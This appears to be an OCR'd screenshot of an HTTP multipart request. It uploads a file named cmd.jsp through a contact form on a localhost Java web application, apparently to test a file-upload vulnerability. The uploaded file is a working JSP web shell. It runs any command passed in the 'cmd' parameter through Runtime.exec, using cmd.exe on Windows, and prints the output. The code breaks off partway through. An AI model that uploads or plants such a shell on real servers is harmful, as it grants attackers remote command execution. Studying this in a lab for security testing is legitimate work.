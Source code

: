 ```
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8380/main.action
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=AFB0B463650F0424AD04A78F8EEEA4A9
Connection: keep-alive

------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="name"

asdf
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="email"

asdf
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="subject"

asdf
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="message"

asdf
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="Upload"; filename="cmd.jsp"
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*" %>
    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
        <!DOCTYPE html>
        <html>

        <head>
            <meta charset="UTF-8">
            <title>Insert title here</title>
        </head>

        <body>
            <form method="GET" name="cmdForm" action="">
                <input type="text" name="cmd">
                <input type="submit" value="전송">
            </form>
            <pre>
<%
if (request.getParameter("cmd") != null)
{
	out.println("명령어 : " + request.getParameter("cmd") + "<br>");
	
	Process p;
	
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1)
		p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    
    else
		p = Runtime.getRuntime().exec(request.getParameter("cmd"));
	
	InputStreamReader in = new InputStreamReader(p.getInputStream(),"euc-kr");
	BufferedReader br = new BufferedReader(in);
	
	String disr = br.readLine();
	
	while ( disr != null )
	{
```